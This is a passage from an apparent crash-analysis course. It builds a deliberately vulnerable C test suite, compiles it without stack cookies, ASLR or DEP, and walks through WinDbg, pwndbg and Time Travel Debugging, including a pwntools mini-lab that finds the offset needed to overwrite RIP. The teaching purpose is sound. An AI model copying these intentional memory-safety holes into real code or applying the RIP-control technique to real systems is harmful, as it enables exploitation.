```bash
sudo apt install systemd-coredump

# MaxUse=1G          # Max disk space for cores
```

**Configuring systemd-coredump** (`/etc/systemd/coredump.conf`):

```ini
[Coredump]

### ASAN and Core Dumps

> [!NOTE]
> **ASAN often exits via SIGABRT, not SIGSEGV**. This can be confusing when trying to capture core dumps.

```bash

# Method 1: Configure ASAN to allow core dumps
export ASAN_OPTIONS="abort_on_error=1:disable_coredump=0"

# Method 3: Use gdb to catch ASAN abort
echo "1 $(python3 -c "print('A'*200)")" > crash_input
gdb ./vuln_asan
(gdb) run < crash_input

### Building Vulnerable Test Suite for Windows

**Prerequisites**:

- Visual Studio 2022 (Community edition is free) or Build Tools for Visual Studio
- Open "x64 Native Tools Command Prompt for VS 2022" for compilation

**vulnerable_suite_win.c** - Save this file for Windows crash analysis practice:

```c
// C:\CrashAnalysisLab\src\vulnerable_suite_win.c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void stack_overflow(char *input) {
    char buffer[64];
    printf("[*] Copying input to 64-byte buffer...\n");
    strcpy(buffer, input);
    printf("[*] Buffer: %s\n", buffer);
}

void heap_overflow(char *input) {
    char *buf = (char*)HeapAlloc(GetProcessHeap(), 0, 32);
    printf("[*] Allocated 32 bytes at %p\n", buf);
    strcpy(buf, input);
    printf("[*] Buffer: %s\n", buf);
    HeapFree(GetProcessHeap(), 0, buf);
}

void use_after_free() {
    char *ptr = (char*)HeapAlloc(GetProcessHeap(), 0, 64);
    strcpy(ptr, "Hello, World!");
    printf("[*] Allocated at %p: %s\n", ptr, ptr);
    HeapFree(GetProcessHeap(), 0, ptr);
    printf("[*] Freed, now accessing...\n");
    printf("[*] UAF read: %s\n", ptr);
    ptr[0] = 'X';
}

void double_free() {
    char *ptr = (char*)HeapAlloc(GetProcessHeap(), 0, 64);
    printf("[*] Allocated at %p\n", ptr);
    HeapFree(GetProcessHeap(), 0, ptr);
    printf("[*] First free done\n");
    HeapFree(GetProcessHeap(), 0, ptr);
}

void null_deref(int trigger) {
    char *ptr = trigger ? (char*)HeapAlloc(GetProcessHeap(), 0, 10) : NULL;
    printf("[*] ptr = %p\n", ptr);
    *ptr = 'A';
}

void integer_overflow(unsigned int size) {
    unsigned int alloc_size = size + 16;
    if (alloc_size < size) {
        printf("[*] Integer overflow detected! alloc_size=%u\n", alloc_size);
    }
    char *buf = (char*)HeapAlloc(GetProcessHeap(), 0, alloc_size);
    printf("[*] Allocated %u bytes at %p\n", alloc_size, buf);
    memset(buf, 'A', size);
    HeapFree(GetProcessHeap(), 0, buf);
}

void print_usage(char *prog) {
    printf("Windows Vulnerable Test Suite\n");
    printf("==============================\n");
    printf("Usage: %s <test_num> [input]\n\n", prog);
    printf("Tests:\n");
    printf("  1 <input>  - Stack overflow (need ~100+ chars)\n");
    printf("  2 <input>  - Heap overflow (need ~50+ chars)\n");
    printf("  3          - Use-after-free\n");
    printf("  4          - Double free\n");
    printf("  5 <0|1>    - NULL deref (0=crash)\n");
    printf("  6 <size>   - Integer overflow (try 4294967280)\n");
    printf("\nExamples:\n");
    printf("  %s 1 ", prog);
    printf("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n");
    printf("  %s 5 0\n", prog);
}

int main(int argc, char **argv) {
    if (argc < 2) { print_usage(argv[0]); return 1; }
    int test = atoi(argv[1]);

    switch(test) {
        case 1: if (argc<3) return 1; stack_overflow(argv[2]); break;
        case 2: if (argc<3) return 1; heap_overflow(argv[2]); break;
        case 3: use_after_free(); break;
        case 4: double_free(); break;
        case 5: if (argc<3) return 1; null_deref(atoi(argv[2])); break;
        case 6: if (argc<3) return 1; integer_overflow((unsigned int)strtoul(argv[2], NULL, 10)); break;
        default: print_usage(argv[0]); return 1;
    }
    printf("[*] Test completed without crash\n");
    return 0;
}
```

**Build the Windows test suite**:

```bash

#    /GS- disables stack cookies, /DYNAMICBASE:NO disables ASLR
cl /Zi /Od /GS- vulnerable_suite_win.c /Fe:..\vuln_win.exe /link /DYNAMICBASE:NO /NXCOMPAT:NO

# 2. Build WITH ASAN (Visual Studio 2019 16.9+ or VS 2022)
cl /Zi /Od /fsanitize=address vulnerable_suite_win.c /Fe:..\vuln_asan.exe

# 3. Build with standard protections (default mitigations)
cl /Zi /Od vulnerable_suite_win.c /Fe:..\vuln_protected.exe
```

**Generate your first Windows crashes**:

```bash
cd C:\CrashAnalysisLab

# 01/05/2026  03:09 PM        10,543,599 vuln_win.exe.984.dmp
```

**Using PowerShell to generate long strings**:

```bash

# Test with ASAN
.\vuln_asan.exe 1 $payload 2>&1 | Tee-Object -FilePath C:\CrashDumps\stack_asan.txt

# Test UAF with ASAN
.\vuln_asan.exe 3 2>&1 | Tee-Object -FilePath C:\CrashDumps\uaf_asan.txt
```

**Verify crashes are captured**:

```bash

#### Windows Error Reporting (WER) LocalDumps

WER is Windows' built-in crash reporting. Configure it to save dumps locally:

**Enable LocalDumps via Registry**:

```bash

# Create LocalDumps key for ALL applications
reg add "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps" /v DumpFolder /t REG_EXPAND_SZ /d "C:\CrashDumps" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps" /v DumpType /t REG_DWORD /d 2 /f
reg add "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps" /v DumpCount /t REG_DWORD /d 10 /f

# Create dump directory
mkdir C:\CrashDumps
```

**Per-Application LocalDumps** (configure for our test binary):

```bash

# Configure for our vulnerable test binary
reg add "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps\vuln_win.exe" /v DumpFolder /t REG_EXPAND_SZ /d "C:\CrashAnalysisLab\dumps" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps\vuln_win.exe" /v DumpType /t REG_DWORD /d 2 /f

# Or for any application
reg add "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps\target.exe" /v DumpFolder /t REG_EXPAND_SZ /d "C:\CrashDumps\target" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps\target.exe" /v DumpType /t REG_DWORD /d 2 /f
```

**Verify WER is Enabled**:

```bash

# Check LocalDumps configuration
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps"
```

#### Sysinternals ProcDump

ProcDump provides more control than WER and catches crashes in real-time:

**Basic Crash Capture** (using our test binary):

```bash
winget install Microsoft.Sysinternals.Suite

# First, ensure you've built the test suite (see "Building a Windows Vulnerable Test Suite" above)
cd C:\CrashAnalysisLab

# Capture on first-chance exceptions (catches more bugs)
procdump -ma -e 1 -x dumps vuln_win.exe 1 AAAA...

# Capture on specific exception codes
procdump -ma -e 1 -f C0000005 -x dumps vuln_win.exe 5 0   # Access violation (NULL deref)

# Capture multiple dumps (for intermittent crashes)
procdump -ma -e -n 5 -x dumps vuln_win.exe 3   # UAF - capture up to 5 dumps

# Set CDB path (adjust version number as needed)
set CDB="C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\cdb.exe"

# Single dump analysis (use actual dump from ProcDump)
%CDB% -z C:\CrashAnalysisLab\dumps\vuln_win.exe_XXXXXX.dmp

# Or if cdb is in PATH:
cdb -z C:\CrashAnalysisLab\dumps\vuln_win.exe_XXXXXX.dmp -c "!analyze -v; q"
```

**Batch triage script** (batch_triage.cmd):

```bash
@echo off

# Set path to cdb.exe (adjust if needed)
set CDB="C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\cdb.exe"

for %%f in (C:\CrashAnalysisLab\dumps\*.dmp) do (
    echo ======================================== >> triage_report.txt
    echo Analyzing: %%f >> triage_report.txt
    echo ======================================== >> triage_report.txt
    %CDB% -z "%%f" -c ".symfix; .reload; !analyze -v; q" >> triage_report.txt 2>&1
)
echo Done! Results in triage_report.txt
```

**PowerShell Batch Analysis**:

```bash

# Path to cdb.exe - adjust if your Windows SDK version differs
$cdb = "C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\cdb.exe"

# Verify cdb exists
if (-not (Test-Path $cdb)) {
    Write-Error "cdb.exe not found at $cdb. Install Windows SDK Debugging Tools."
    exit 1
}

$dumps = Get-ChildItem "C:\CrashAnalysisLab\dumps\*.dmp"
$results = @()

foreach ($dump in $dumps) {
    Write-Host "Analyzing $($dump.Name)..."

    $output = & $cdb -z $dump.FullName -c "!analyze -v; !exploitable; q" 2>&1 | Out-String

    # Extract key info
    $exploitable = if ($output -match "Exploitability Classification: (\w+)") { $Matches[1] } else { "Unknown" }
    $bugcheck = if ($output -match "EXCEPTION_CODE: \(NTSTATUS\) (0x[0-9a-f]+)") { $Matches[1] } else { "Unknown" }

    $results += [PSCustomObject]@{
        DumpFile = $dump.Name
        Exploitability = $exploitable
        ExceptionCode = $bugcheck
    }
}

$results | Export-Csv "triage_results.csv" -NoTypeInformation
$results | Format-Table -AutoSize
```

### Symbols and Symbolization (Linux Quick Reference)

Meaningful backtraces (GDB, CASR, ASAN reports) require symbols.

**1. Build with debug info (preferred for labs)**:

```bash
cd ~/crash_analysis_lab/src
sudo apt install -y clang-18 clang-18-dbgsym
clang -g -O1 -fno-omit-frame-pointer vulnerable_suite.c -o ../target
```

**2. Install debug symbols for system libraries (real-world targets)**:

```bash

# sudo dnf debuginfo-install glibc
```

**3. Use debuginfod for "fetch symbols on demand" (when local symbols unavailable)**:

```bash

# GDB uses those directly without needing debuginfod.
```

**4. Symbolize raw addresses when you only have PCs**:

```bash
sudo apt install -y elfutils binutils
cd ~/crash_analysis_lab

# (PIE binaries show low addresses; add the runtime base for live processes)
addr2line -e ./target -f -C 0x12b0

### Symbol Hygiene Best Practices

- Symbols make or break crash analysis.
- Without them, you're staring at hex addresses instead of function names.
- This section provides best practices for both Windows and Linux.

#### Linux Symbol Management

**1. debuginfod (Automatic Symbol Fetching)**:

debuginfod can automatically fetch debug symbols on-demand from public servers when you don't have them installed locally.

```bash

# For LLDB
export LLDB_DEBUGINFOD_URLS="https://debuginfod.elfutils.org/"
```

> [!IMPORTANT]
> **debuginfod vs local debug packages**: debuginfod queries _remote_ servers for symbols you don't have locally.
> If you install debug symbol packages (e.g., `coreutils-dbgsym`), the symbols are stored locally at `/usr/lib/debug/` and GDB uses them directly without needing debuginfod.

**Verification**: Don't use `debuginfod-find` to verify your setup—it only queries remote servers. Instead, verify GDB can find symbols:

```bash

# Install local debug symbols (recommended for common packages)
sudo apt install coreutils-dbgsym

# Verify GDB finds the symbols
gdb -q -ex "file /usr/bin/ls" -ex "info sources" -ex "quit" 2>&1 | head -5

#   ... followed by source file paths like ls.c, hash.c, etc.
```

**When to use debuginfod**: debuginfod is useful when you're analyzing crashes in binaries where you _haven't_ installed the `-dbgsym` package.
GDB will automatically fetch symbols from the configured server.

**2. Installing Debug Symbol Packages**:

```bash
sudo apt install libc6-dbgsym           # Common libraries
sudo apt install libssl3t64-dbgsym      # OpenSSL (Ubuntu 24.04+)
sudo apt install zlib1g-dbgsym          # zlib

# Enable ddebs repository first:
#echo "deb http://ddebs.ubuntu.com $(lsb_release -cs) main restricted universe multiverse" | \

#    sudo tee /etc/apt/sources.list.d/ddebs.list
#sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys F2EDC64DC5AEE1F6B9C621F0C8CAB6595FDFF622
#sudo apt update
#sudo apt install package-dbgsym
```

**3. Symbolizing Addresses with addr2line**:

```bash

# Runtime addresses like 0x59cc1877a53e include PIE base and won't work!
nm ./vuln_asan | grep "T use_after_free"

# Example: Look up a function by name and symbolize it
addr2line -e ./vuln_asan -f -C $(nm ./vuln_asan | grep "T print_usage" | awk '{print $1}')

# With debuginfod (for system binaries without local debug packages):
DEBUGINFOD_URLS="https://debuginfod.ubuntu.com" \
    addr2line -e /usr/bin/crashed_binary -f -C 0x12345
```

**4. Verifying Symbol Quality**:

```bash

# Set symbol path permanently (user environment)
setx _NT_SYMBOL_PATH "srv*C:\Symbols*https://msdl.microsoft.com/download/symbols"

# Or in current session
set _NT_SYMBOL_PATH=srv*C:\Symbols*https://msdl.microsoft.com/download/symbols

# Multiple symbol sources (local + Microsoft + custom server)
set _NT_SYMBOL_PATH=C:\MySymbols;srv*C:\Symbols*https://msdl.microsoft.com/download/symbols;srv*C:\ThirdParty*https://symbols.example.com/
```

**2. WinDbg Symbol Commands**:

```bash

# Verify specific symbol loads
x ntdll!Rtl*    # List all Rtl* functions - only works with symbols
```

**3. Troubleshooting Symbol Issues**:

```bash

# Force load unverified symbols (use with caution)
.symopt+ 0x40     # SYMOPT_LOAD_ANYTHING
.reload /f
.symopt- 0x40     # Disable after
```

#### Cross-Platform Symbol Checklist

- Linux
  - [ ] debuginfod URL configured
  - [ ] Debug packages installed for target libraries
  - [ ] Binary built with -g flag
  - [ ] eu-addr2line available for batch symbolization
- Windows
  - [ ] `_NT_SYMBOL_PATH` environment variable set
  - [ ] Symbol cache directory exists and writable
  - [ ] Microsoft symbol server accessible
  - [ ] PDB files match target binaries (same build)
- Both Platforms
  - [ ] Third-party library symbols obtained
  - [ ] Symbol server accessible (or offline cache populated)
  - [ ] Test symbolization: verify backtrace shows function names

# run it against Test 1 in line 564
gdb ./vuln_no_protect -c /var/crash/core.vuln_no_protect.1184.1766232655
#Reading symbols from ./vuln_no_protect...
#[New LWP 1184]
#[Thread debugging using libthread_db enabled]
#Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
#Core was generated by `./vuln_no_protect 1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
#Program terminated with signal SIGSEGV, Segmentation fault.
##0  0x4141414141414141 in ?? ()
#------- tip of the day (disable with set show-tips off) -------
#GDB and Pwndbg parameters can be shown or set with show <param> and set <param> <value> GDB commands
#LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
#──────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]#───────────────────────────────────────────────────────────────────────────────────────────────────────────────────

# R14  0x403e00 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4011a0 (__do_global_dtors_aux) ◂— endbr64

# RIP  0x4141414141414141 ('AAAAAAAA')
#───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]#────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
#Invalid address 0x4141414141414141
#─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]#─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
#00:0000│ rsp 0x7ffcc3436d60 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
#... ↓        7 skipped
#───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]#───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

# Check stack for overflow pattern
pwndbg> telescope $rsp 30
#00:0000│ rsp 0x7ffcc3436d60 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
#... ↓        14 skipped
#0f:0078│     0x7ffcc3436dd8 —▸ 0x74e4537e6000 (_rtld_global) —▸ 0x74e4537e72e0 ◂— 0
#10:0080│     0x7ffcc3436de0 ◂— 0xdd1f52d83d3c0cb0
#11:0088│     0x7ffcc3436de8 ◂— 0xcb2e72dba51e0cb0
#12:0090│     0x7ffcc3436df0 ◂— 0x7ffc00000000
#13:0098│     0x7ffcc3436df8 ◂— 0
#14:00a0│     0x7ffcc3436e00 ◂— 0
#15:00a8│     0x7ffcc3436e08 ◂— 3
#16:00b0│     0x7ffcc3436e10 —▸ 0x7ffcc3436ea0 ◂— 3
#17:00b8│     0x7ffcc3436e18 ◂— 0xa20d707b5eb54d00
#18:00c0│     0x7ffcc3436e20 —▸ 0x7ffcc3436e80 ◂— 0
#19:00c8│     0x7ffcc3436e28 —▸ 0x74e45342a28b (__libc_start_main+139) ◂— mov r15, qword ptr [rip + 0x1d8cf6]
#1a:00d0│     0x7ffcc3436e30 —▸ 0x7ffcc3436ec8 —▸ 0x7ffcc343756c ◂— 'SHELL=/bin/bash'
#1b:00d8│     0x7ffcc3436e38 —▸ 0x403e00 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4011a0 (__do_global_dtors_aux) ◂— endbr64
#1c:00e0│     0x7ffcc3436e40 —▸ 0x7ffcc3436ec8 —▸ 0x7ffcc343756c ◂— 'SHELL=/bin/bash'
#1d:00e8│     0x7ffcc3436e48 —▸ 0x401485 (main) ◂— endbr64
```

### WinDbg User Interface Overview

**Command Window**: Type commands here
**Registers Window**: View CPU register state
**Disassembly Window**: View assembly code at current IP
**Memory Window**: Inspect memory contents
**Call Stack Window**: View function call hierarchy
**Locals/Watch Window**: Inspect variables

**Essential Keyboard Shortcuts**:

- `F5`: Go (continue execution)
- `F10`: Step over
- `F11`: Step into
- `Shift+F9`: Set/remove breakpoint
- `Shift+F11`: Step out
- `Ctrl+Break`: Break into debugger

### Analyzing Stack Buffer Overflow Crashes

**Crash Scenario**: Stack buffer overflow in vulnerable application

**Load Crash Dump**:

```bash

# Open crash dump file
File → Open Dump file → select C:\CrashAnalysisLab\dumps\xxx.dmp (or one of the crashes from linux)

# Verify dump loaded
!analyze -v
#FILE_IN_CAB:  vuln_win.exe_260105_151715.dmp
#COMMENT:
#*** procdump  -ma -e -x dumps vuln_win.exe 1 #AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA#AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA#AAAAAAAAAA
#*** Unhandled exception: C0000005.ACCESS_VIOLATION
#NTGLOBALFLAG:  70
#APPLICATION_VERIFIER_FLAGS:  0
#CONTEXT:  (.ecxr)
#rax=00000000000000d7 rbx=000000000052e6b0 rcx=0000000000000000
#rdx=0000000000010000 rsi=0000000000000000 rdi=00000000005342d0
#rip=000000014000744a rsp=000000000014fed8 rbp=0000000000000000

# r8=7ffffffffffffffc  r9=0000000000000000 r10=0000000000000000
#r11=000000000014fcd0 r12=0000000000000000 r13=0000000000000000
#r14=0000000000000000 r15=0000000000000000
#iopl=0         nv up ei pl nz na po nc
#cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010204
#vuln_win!stack_overflow+0x3a:
#00000001`4000744a c3              ret
#Resetting default scope
#EXCEPTION_RECORD:  (.exr -1)
#ExceptionAddress: 000000014000744a (vuln_win!stack_overflow+0x000000000000003a)

#   Parameter[1]: ffffffffffffffff
#Attempt to read from address ffffffffffffffff
#PROCESS_NAME:  vuln_win.exe
#READ_ADDRESS:  ffffffffffffffff
#ERROR_CODE: (NTSTATUS) 0xc0000005 - The instruction at 0x%p referenced memory at 0x%p. The memory could not be %s.
#EXCEPTION_CODE_STR:  c0000005
#EXCEPTION_PARAMETER1:  0000000000000000
#EXCEPTION_PARAMETER2:  ffffffffffffffff
#IP_ON_HEAP:  4141414141414141
#The fault address in not in any loaded module, please check your build's rebase
#log at <releasedir>\bin\build_logs\timebuild\ntrebase.log for module which may
#contain the address if it were loaded.
```

**Initial Analysis Commands**:

```bash

# Display call stack
k
kv      # Verbose with frame pointer
kP      # With full source paths (if symbols loaded)
kn      # With frame numbers

### Analyzing Heap Corruption Crashes

Using the `vuln_win.exe` test suite from the "Building a Windows Vulnerable Test Suite" section, generate heap-related crashes:

```bash

# Generate heap overflow crash (Test 2)
cd C:\CrashAnalysisLab
"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\gflags.exe" /p /enable vuln_win.exe /full
vuln_win.exe 2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA#AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA#AAAAAAAAAA

# May not crash without PageHeap - see PageHeap lab below
```

**Load and Analyze Heap Overflow Dump**:

```bash

# Look for: heap_overflow or HeapFree in the stack
```

**Heap Metadata Corruption Pattern** (typical output):

```bash

# Check heap state
0:000> !heap -s                    # Summary of all heaps
0:000> !heap -a 0                  # Analyze default process heap

# Check source if symbols are good
0:000> lsa vuln_win!heap_overflow
```

**Identifying UAF with vuln_win.exe**:

```bash

# First, enable PageHeap for better UAF detection (run as Administrator)
#cd C:\CrashAnalysisLab
#"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\gflags.exe" /p /enable /full vuln_win.exe

# Load the crash dump
windbg -z C:\CrashDumps\vuln_win.exe.<PID>.dmp

0:000> !analyze -v

# Typical UAF crash pattern
0:000> k
 # ChildEBP RetAddr
 # 00 ntdll!RtlpLowFragHeapFree+0x42
 # 01 vuln_win!use_after_free+0x15
 # 02 vuln_win!main+0x89

# Check if address was recently freed (requires PageHeap) -(READ_ADDRESS)
0:000> !heap -p -a 0x01fabfc0
    address 0000000001fabfc0 found in
    _DPH_HEAP_ROOT @ 1c01000
    in free-ed allocation (  DPH_HEAP_BLOCK:         VirtAddr         VirtSize)
                                    1c0c820:          1fab000             2000
    00007ffd1074b2d3 ntdll!RtlDebugFreeHeap+0x0000000000000037
    00007ffd106e370c ntdll!RtlpFreeHeap+0x000000000000178c
    00007ffd10739300 ntdll!RtlFreeHeap+0x0000000000000620
    000000014000753d vuln_win!use_after_free+0x000000000000005d

# Don't forget to disable PageHeap after analysis
#"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\gflags.exe" /p /disable vuln_win.exe
```

**Classification**: Use-After-Free - object accessed after being freed.

### Common Crash Patterns and Identification

**1. Null Pointer Dereference**:

```bash
0:000> r rax
rax=0000000000000000

0:000> u @rip
mov  qword ptr [rax], rcx    # Writing to NULL

# Usually not exploitable unless kernel-mode
```

**2. Access Violation (Invalid Address)**:

```bash
0:000> r rax
rax=deadbeefdeadbeef         # Invalid address

# - Corrupted pointer
```

**3. Stack Cookie Violation**:

```bash
0:000> k
ntdll!RtlReportCriticalFailure
ntdll!RtlpReportHeapFailure
<Application>!__security_check_cookie
<Application>!function_with_stack_cookie

# Stack overflow detected, but mitigated by /GS
```

**4. Heap Corruption Detected**:

```bash
0:000> k
ntdll!RtlReportCriticalFailure
ntdll!RtlpHeapHandleError
ntdll!RtlpLogHeapFailure

### Essential WinDbg Commands Reference

**Memory Examination**:

```bash
db <address>           # Display bytes
dw <address>           # Display words (2 bytes)
dd <address>           # Display dwords (4 bytes)
dq <address>           # Display qwords (8 bytes)
da <address>           # Display ASCII string
du <address>           # Display Unicode string
dps <address>          # Display pointer-sized values with symbols
```

**Disassembly**:

```bash
u <address>            # Unassemble at address
u <address> L<count>   # Unassemble count instructions
ub <address>           # Unassemble backward
uf <function>          # Unassemble entire function
```

**Breakpoints**:

```bash
bp <address>           # Set breakpoint
bp <module>!<function> # Set breakpoint on function
ba r 1 <address>       # Hardware breakpoint on read
ba w 4 <address>       # Hardware breakpoint on write (4 bytes)
bl                     # List breakpoints
bc *                   # Clear all breakpoints
```

**Execution Control**:

```bash
g                      # Go (continue)
p                      # Step over
t                      # Step into (trace)
pt                     # Step to next return
pc                     # Step to next call
gu                     # Go up (step out)
```

**Searching Memory**:

```bash
s -a 0 L?80000000 "string"     # Search for ASCII string
s -u 0 L?80000000 "string"     # Search for Unicode string
s -b 0 L?80000000 41 41 41 41  # Search for bytes (hex)
```

**Modules and Symbols**:

```bash
lm                     # List loaded modules
lm m <module>          # Show specific module
x <module>!<symbol>    # Examine symbols
dt <structure>         # Display type (struct definition)
dt <structure> <addr>  # Display structure at address
```

**Heap Commands**:

```bash
!heap                  # List all heaps
!heap -s               # Heap summary
!heap -a <address>     # Analyze heap at address
!heap -p -a <address>  # Page heap info for allocation
!heap -x <address>     # Search heaps for address
```

**Linux (Pwndbg Equivalents)**:

```text
| WinDbg Command | Pwndbg Equivalent                 | Description           |
| -------------- | --------------------------------- | --------------------- |
| `db/dd/dq`     | `x/b`, `x/w`, `x/g` or `hexdump`  | Memory display        |
| `dps`          | `telescope`                       | Smart pointer display |
| `u`            | `x/i` or `disassemble`            | Disassembly           |
| `bp`           | `break` or `b`                    | Set breakpoint        |
| `ba w`         | `watch` or `rwatch`               | Hardware watchpoint   |
| `g`            | `continue` or `c`                 | Continue execution    |
| `p`            | `next` or `n`                     | Step over             |
| `t`            | `step` or `s`                     | Step into             |
| `s -a`         | `search "string"`                 | Search memory         |
| `lm`           | `info shared` or `vmmap`          | List modules          |
| `!heap`        | `heap`, `bins`, `arena`           | Heap analysis         |
| `!analyze -v`  | `bt`, `info registers`, `context` | Crash analysis        |
```

# Search memory
pwndbg> search "AAAA"
pwndbg> search -t qword 0x4141414141414141
pwndbg> search -x "deadbeef"

# Heap analysis (critical for heap bugs)
pwndbg> heap
pwndbg> bins
pwndbg> fastbins
pwndbg> tcache
pwndbg> vis_heap_chunks

# Cyclic pattern (for offset finding)
pwndbg> cyclic 200
pwndbg> cyclic -l 0x61616174
```

**Stack Overflow Offset Mini-Lab**

This mini-lab teaches you to find the exact offset needed to control RIP:

```bash

# Step 1: Generate a cyclic pattern (de Bruijn sequence)
cd ~/crash_analysis_lab
python3 -m venv .venv
source .venv/bin/activate
pip install pwntools
python3 -c 'from pwn import *; print(cyclic(200).decode())' > pattern.txt
cat pattern.txt

# Step 3: Analyze the crash in GDB/Pwndbg (use the correct crash file- cwd or proper location)
gdb ./vuln_no_protect -c /var/crash/core.vuln_no_protect.3441.1766236363
pwndbg> info reg rip rbp

# Step 5: Verify control - overwrite RIP with a known value
python3 << 'EOF'
from pwn import *
p = process(["./vuln_no_protect", "1", b"A"*72 + p64(0xdeadbeefcafebabe)])
p.wait()
EOF

# In GDB, confirm RIP = 0xdeadbeefcafebabe (use the correct crash file)
gdb ./vuln_no_protect -c /var/crash/core.vuln_no_protect.3552.1766237600
pwndbg> info reg rip

# rip  0xdeadbeefcafebabe   <-- We control RIP!
```

> [!NOTE]
> The offset (72 in this example) is the number of bytes from the start of your input to the saved return address.
> In Week 5, you'll replace `0xdeadbeefcafebabe` with actual exploit targets (ROP gadgets, shellcode addresses, etc.).

### Time Travel Debugging (TTD)

**What Is TTD?**:

- Time Travel Debugging (TTD) is Microsoft's revolutionary debugging technology that records program execution and allows stepping backward in time.
- Unlike traditional debugging where you can only step forward, TTD captures the entire execution trace, enabling you to navigate to any point in the program's history.

**Why TTD Matters for Crash Analysis**:

- **No More "Oops, I stepped too far"**: Step backward to inspect the exact state before a crash
- **Perfect Reproducibility**: Recorded traces can be replayed indefinitely with identical behavior
- **Non-deterministic Bug Analysis**: Catches race conditions, timing issues, and heisenbug patterns
- **Offline Analysis**: Record on one machine, analyze on another
- **Root Cause Discovery**: Trace backward from crash to find where corruption originated

**Example TTD Workflow with vuln_win.exe**:

This example uses the stack overflow crash from our test suite:

```bash

# Stops at previous breakpoint - we can examine state just before crash
```

**TTD Data Model Queries**:

TTD integrates with WinDbg's data model, enabling powerful queries:

**Memory Access Queries**:

```bash

# First, get RSP at function entry to know where return address is stored
0:000> !tt 0
0:000> bp vuln_win!stack_overflow
0:000> g
0:000> r rsp

# Get details of the LAST write (the one that corrupted return address)
0:000> dx @$cursession.TTD.Memory(0x14fed8, 0x14fee0, "w").Last()

# Navigate to the exact instruction that corrupted the return address
0:000> dx @$cursession.TTD.Memory(0x14fed8, 0x14fee0, "w").Last().TimeStart.SeekTo()
0:000> u @rip L3

# 00000001`40083412 4889040a        mov     qword ptr [rdx+rcx],rax  <- strcpy writing 'AAAAAAAA'
```

**Call Queries**:

```bash

# Find all strcpy-related functions (includes internal helpers)
0:000> dx @$cursession.TTD.Calls("vuln_win!*strcpy*")

# Find calls to stack_overflow with full details
0:000> dx @$cursession.TTD.Calls("vuln_win!stack_overflow")[0]

# View function parameters - shows the malicious input!
0:000> dx @$cursession.TTD.Calls("vuln_win!stack_overflow")[0].Parameters

# Navigate to specific call
0:000> dx @$cursession.TTD.Calls("vuln_win!stack_overflow")[0].TimeStart.SeekTo()

# Now at the start of stack_overflow() - can step through
```

**Example: Finding Where Return Address Was Overwritten**:

```bash

# Step 1: Find where return address is stored
0:000> !tt 0
0:000> bp vuln_win!stack_overflow
0:000> g
0:000> r rsp

# Step 2: Query all writes to return address location
0:000> dx @$cursession.TTD.Memory(0x14fed8, 0x14fee0, "w").Last()

# Step 3: Navigate to the corruption point
0:000> dx @$cursession.TTD.Memory(0x14fed8, 0x14fee0, "w").Last().TimeStart.SeekTo()

# mov     qword ptr [rdx+rcx],rax  # strcpy's copy loop overwrote return address!

# rax=4141414141414141  # Source data being copied
```

**Example: Tracing User Input Through vuln_win.exe**:

```bash

# Parameters       : [contains argc, argv]

0:000> dx @$cursession.TTD.Calls("vuln_win!main")[0].TimeStart.SeekTo()

# Step 2: Examine argv (RDX = argv in Windows x64 calling convention)
0:000> dps @rdx L4

# Step 4: See how input reaches vulnerable function
